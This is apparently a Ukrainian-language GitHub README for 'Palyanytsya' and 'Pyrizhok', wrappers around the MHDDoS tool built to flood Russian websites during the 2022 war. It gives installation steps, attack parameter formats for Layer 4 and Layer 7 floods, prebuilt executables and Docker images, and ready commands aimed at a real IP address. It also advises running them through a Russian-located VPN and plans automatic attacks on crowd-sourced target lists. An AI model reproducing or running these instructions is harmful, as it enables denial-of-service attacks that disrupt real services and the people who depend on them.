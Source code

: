 # Паляниця

![GitHub last commit](https://img.shields.io/github/last-commit/pocket-sunflower/palyanytsya)
[![Python 3.10](https://img.shields.io/badge/python-3.10-f.svg)](https://www.python.org/downloads/release/python-360/)
![](https://img.shields.io/github/license/pocket-sunflower/palyanytsya)
![](https://github.com/pocket-sunflower/palyanytsya/actions/workflows/build-workflow.yml/badge.svg)

[//]: # (![]&#40;https://img.shields.io/github/workflow/status/pocket-sunflower/palyanytsya/build-workflow&#41;)

[//]: # (![]&#40;https://img.shields.io/docker/pulls/pocketsunflower/pyrizhok?label=pyrizhok%20docker%20pulls&#41;)

[//]: # (![]&#40;https://img.shields.io/docker/pulls/pocketsunflower/palyanytsya?label=palyanytsya%20docker%20pulls&#41;)

Цифрова зброя проти xуйлoвської пропаганди.

Щоб негайно почати шкварити рашистські сайти – мерщій у [швидкий старт][docs-quickstart]! ⚡️

А коли ворожі сервери вже жаряться і є час почитати – ласкаво просимо вниз.

---

## Швидкі посилання

- [⚡ Швидкий старт][docs-quickstart]
- [🔥 Мотивація](#motivation)
- [🔧 Технічні деталі](#technical)
  - [📑 Параметри](#parameters)
  - [🍞 Випічка](#builds) / [детальний гайд][docs-builds-detailed]
  - [🥡 Запуск вихідного коду](#run-from-source) / [детальний гайд][docs-run-from-source-detailed]
- [🚀 Плани та колаборація](#plans-and-collaboration)

---

## <a name="motivation"></a>🔥 Мотивація

24-го лютого 2022 року Російська Федерація підступно напала на Україну. В перші дні нападу Мінцифри України оперативно організувало кібер-армію: легіон IT-фахівців та волонтерів, які доклали свої сили та вміння на протидію рашистському агресору у цифровому просторі.

Цей репозиторій – духовний спадкоємець декількох проектів, що допомагали нам тримати цифровий тиск по ворогу у перший тиждень війни. Наша ціль – зробити запуск цього коду якомога простішим для більшості людей і при тому зберегти ефективність і гнучкість опцій атаки.

Тож, вмикайте свої машини, відкривайте термінали, і вліпимо дружньою паляницею по системах окупантів!

Слава Україні! Ми разом і ми переможемо! 💙💛

---

## <a name="technical"></a>🔧 Технічні деталі 


[MHDDoS][mhddos-github] – це потужний пайтон-скрипт для виконання DDoS атак у різних режимах. Наш репозиторій надає для нього два прості врапери: 

- Пиріжок ([pyrizhok](pyrizhok.py)) – мінімалістична версія врапера, яка потребує лише **адресу цілі** для того, щоб запустити атаку. Тим паче, за бажанням можна надати інший **порт** і **протокол**. Створений для починаючих котиків 😸
- Паляниця ([palyanytsya](palyanytsya.py)) – це повний врапер для MHDDoS, який приймає **всі опції** з оригінального скрипта. Створений для досвідчених в IT котів та киць 😼


### <a name="parameters"></a>📑 Параметри

> **⚠** **ВАЖЛИВО:** Не забувайте користуватися VPN! Бажано з локацією в Росії - так ефективніше.

**Пиріжок** можна запускати без параметрів – під час запуску він сам спитає вас про те, кому і як треба вгатити.

Тим не менш, параметри можна передати наперед у такому форматі:

```bash
pyrizhok.py <target_address> <target_port> <attack_method>
```

Значення параметрів:

1. `target_address` – адреса цілі. Може бути URL або IP-адресою.
2. `target_port` – (опціонально) порт цілі.
3. `attack_method` – (опціонально, потребує вказаний порт) метод, який буде використовуватися для атаки. Список можливих  опцій можна побачити [в оригінальному доці MHDDoS][mhddos-github-layer7]. 

**Паляниця** дає доступ до всіх опцій в MHDDoS, яких немало, тому зараз рекомендуємо дивитися прямо в [оригінальну документацію][mhddos-github-launch]. Також деталі про параметри можна подивитися запустивши паляницю з параметром help: 
```bash
palyanytsya.py help
```

Мапа параметрів залежить від того, на який шар мережі ведеться атака.

- Layer 7: 
   ```bash
   palyanytsya.py <method> <url> <socks_type5.4.1> <threads> <proxylist> <rpc> <duration>

- Layer 4: 
  ```bash
  palyanytsya.py <method> <ip:port> <threads> <duration>
  ```



### <a name="builds"></a>🍞 Випічка

Паляниця та пиріжок запаковані в декілька різних форматів, аби зменшити час на налаштування і запуск до мінімуму.

> **ℹ** Детальний гайд про те, як самостійно запекти пиріжок та паляницю [можна знайти тут][docs-builds-detailed].

**PyInstaller 🐍** Standalone версії обох програм запаковані за допомогою [PyInstaller][pyinstaller]. Python-скрипти для створення білдів можна знайти у папці [build_scripts_PyInstaller](build_scripts_PyInstaller). Зауважте, що білд створюється для тієї ж платформи, на якій запущено скрипт (наприклад, щоб збілдити проект на Mac - треба запустити бідповідний білд на машині з macOS). Вихідні файли знаходяться у своїх папках:
- 💻 Білди .exe для Windows – в [**executables/Windows**](executables/Windows).
- 🐧 Білди для Linux – в [**executables/Linux**](executables/Linux).
- 🍎 Білди для Mac – в [**executables/Mac (Intel)**](executables/Mac%20(Intel)) та [**executables/Mac (M1)**](executables/Mac%20(M1)).
  > **⚠** Наразі, білди для **Mac (M1)** не автоматизовані через [брак цієї архітектури в GitHub hosted runners][mac-m1-github-runners]. Тож, якщо у вас виникають проблеми із запуском на M1, дайте нам знати – ми оновимо білд власноруч.

**Docker 🐋** Скрипти для збирання Docker-контейнерів та самі Dockerфайли знаходяться в папці [build_scripts_Docker](build_scripts_Docker). Найновіші версії обох контейнерів також доступні у репозиторії GitHub:
- [**ghcr.io/pocket-sunflower/pyrizhok:latest**][ghcr-pyrizhok]
- [**ghcr.io/pocket-sunflower/palyanytsya:latest**][ghcr-palyanytsya]

Якщо хочете створити білди самостійно – ласкаво просимо в [детальний гайд][docs-builds-detailed].



### <a name="run-from-source"></a>🥡 Запуск вихідного коду

Щоби запустити пиріжок чи паляницю з джерела на Linux:

> **ℹ️** Детальніші інструкції про те, як запустити програму з вихідного коду [можна знайти тут][docs-run-from-source-detailed].

1. Клонуємо цей репозиторій та заходимо в папку з кодом:
    ```bash
    git clone https://github.com/pocket-sunflower/palyanytsya
   cd palyanytsya 
    ```

2. Створюємо віртуальне середовище та активуємо його:
    > **⚠** Паляниця з пиріжком потребують версію Python не менше ніж [**3.10.2**](https://www.python.org/downloads/release/python-3102/).
    ```bash
    python3 -m virtualenv --python python3.10 venv
    source venv/bin/activate
    ```

3. Встановлюємо залежності:
    ```bash
    pip install -r requirements.txt
    ```

4. Запускаємо пиріжок (або паляничку) з потрібною адресою, наприклад _194.85.30.210_ ([саме так][same-tak]):
    ```bash
    python3 pyrizhok.py 194.85.30.210 443 TCP
    ```
    ```bash
    python3 palyanytsya.py bypass 194.85.30.210 5 100 socks5.txt 10000 3600
    ```

    …і те, що за адресою, відправляється вслєд за рускім корабльом.

Щоби дізнатися, я запускати пиріжок та паляницю на кожній з доступних платформ, [ласкаво просимо в детальніший гайд][docs-run-from-source-detailed].

---

## <a name="plans-and-collaboration"></a>🚀 Плани та колаборація

Найближчим часом планується:
- ✅ ~~Додати кращий логінг статусу атаки (наразі атака іде у фоновому режимі, без індикації статусу).~~
- ✅ ~~Додати автоматизацію білдів для усіх платформ через CI.~~
- Додати логінг досяжності та статусу цілі.
- Додати новий клієнт для автоматичного «тестування» [адрес][db1000n-targets] наданих проектом [«Death by 1000 needles»][db1000n]. Це допоможе нам бути більш скоординованими та ефективними.
- Whatever else may come…

Якщо ви можете допомогти з будь-яким пунктом вище, або у вас є ідеї про те, як покращити існуючий код, ми будемо дуже вдячні - відкривайте [issues][repo-issues] та пропонуйте [pull requests][repo-pull-requests]. Єдина умова - чітко поясніть, що ви хотіли би змінити, щоб ніхто не витрачав часу на непорозуміння.

---

<div style="text-align: center">Бережіть себе! Все буде Україна! </div>

<div style="text-align: center">💙💛</div>

<div style="text-align: right"><span style="font-style: italic">Pocket Sunflower </span>🌻</div>



<!--- References --->
[mhddos-github]: https://github.com/MHProDev/MHDDoS
[mhddos-github-launch]: https://github.com/MHProDev/MHDDoS#launch-script
[mhddos-github-layer7]: https://github.com/MHProDev/MHDDoS#features-and-methods
[pyinstaller]: https://pyinstaller.readthedocs.io/en/stable/index.html
[db1000n]: https://github.com/Arriven/db1000n
[db1000n-targets]: https://github.com/db1000n-coordinators/LoadTestConfig/blob/main/config.json
[repo-issues]: https://github.com/pocket-sunflower/palyanytsya/issues
[repo-pull-requests]: https://github.com/pocket-sunflower/palyanytsya/pulls
[ghcr-pyrizhok]: https://github.com/pocket-sunflower/palyanytsya/pkgs/container/pyrizhok
[ghcr-palyanytsya]: https://github.com/pocket-sunflower/palyanytsya/pkgs/container/palyanytsya
[mac-m1-github-runners]: https://github.com/actions/virtual-environments/issues/2187
[same-tak]: https://www.nslookup.io/dns-records/mid.ru
[docs-quickstart]: docs/QUICKSTART.md
[docs-builds-detailed]: docs/BUILDS.md
[docs-run-from-source-detailed]: docs/RUN_FROM_SOURCE.md
